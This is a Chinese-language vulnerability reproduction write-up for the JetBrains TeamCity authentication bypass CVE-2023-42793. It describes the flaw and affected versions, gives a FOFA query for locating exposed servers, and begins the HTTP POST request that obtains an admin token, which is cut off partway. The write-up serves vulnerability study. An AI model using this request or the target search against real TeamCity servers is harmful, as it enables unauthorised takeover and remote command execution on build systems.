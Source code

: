 
# JetBrains TeamCity RCE 漏洞复现 (CVE-2023-42793)

### 0x01 产品简介

 [JetBrains](https://so.csdn.net/so/search?q=JetBrains&spm=1001.2101.3001.7020) TeamCity 是 JetBrains 公司开发的一款通用 CI/CD 软件平台。

### 0x02 漏洞概述

 JetBrains TeamCity 可通过访问 /app/rest/users/{ {id}}/tokens/RPC2 端点获取对应 id 用户的有效 token，携带 admin token 访问受限端点导致[远程命令执行](https://so.csdn.net/so/search?q=%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C&spm=1001.2101.3001.7020)或创建后台管理员用户。

### 0x03 影响范围

TeamCity On-Premises version < 2023.05.04 

### 0x04 复现环境

[FOFA](https://so.csdn.net/so/search?q=FOFA&spm=1001.2101.3001.7020)：body="Log in to TeamCity"

![](assets/1701746642-714ed9997a5de8c2c126bf79667ffe54.png)

### 0x05 漏洞复现 

获取 id 为 1 用户的 tooken

```http
POST /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) V
```
